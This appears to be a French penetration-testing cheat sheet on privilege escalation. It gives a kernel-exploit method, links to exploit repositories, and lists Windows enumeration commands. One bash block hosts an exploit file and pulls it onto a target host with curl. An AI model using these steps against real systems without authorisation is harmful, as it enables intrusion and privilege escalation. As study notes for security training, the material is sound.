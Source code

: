 #### LinEnum
https://github.com/rebootuser/LinEnum

### Kernel Exploits

#### Méthodologie
1. Identifiez la version du noyau
2. Rechercher et trouver un code d'exploitation pour la version du noyau du système cible
3. Exécutez l'exploit

https://github.com/lucyoa/kernel-exploits
#### 1. Identification
![[4. Attaquer la cible#Système]]
#### 2. Recherche d'exploit
https://www.exploit-db.com/
#### 3. Exploitation

``` bash
# Installation de l'exploit sur la machine
sudo python3 -m http.server 80 #Hote
curl 10.9.151.128/37292.c #Cible
```
## Windows
### Enumération

#### Système

```cmd
systeminfo
wmic qfe
wmic qfe get Caption,Description,HotFixID,InstalledOn # Patchs
wmic logicaldisk get caption,description,providername
```

```powershell
Get-WmiObject -query 'select * from win32_quickfixengineering' | foreach {$_.hotfixid}
Get-Hotfix -description "Security update"
```
#### Utilisateur

```bash
whoami # affiche l'utilisateur en cours d'utilisation
whoami /priv
whoami /groups
net user <username>
net localgroup <user>
```
#### Réseau

```bash
ifonfig
ip a
ip route 
arp -a 
ip neigh
netstat
```

